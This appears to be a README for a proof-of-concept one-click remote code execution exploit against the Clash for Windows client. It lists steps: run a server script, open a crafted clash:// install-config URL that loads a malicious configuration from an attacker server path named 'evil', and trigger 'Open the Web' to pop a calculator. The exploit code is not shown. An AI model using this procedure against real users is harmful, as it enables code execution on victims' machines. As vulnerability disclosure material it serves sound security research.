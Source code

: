 # clash_for_windows_1click_RCE
clash_for_windows_1click_RCE

- Run server.py
- Open `clash://install-config?url=http%3A%2F%2Fserver-ip%2Fevil` in the browser
- Try right-clicking on the configuration and clicking `Open the Web`
- Get a nice calculator :)
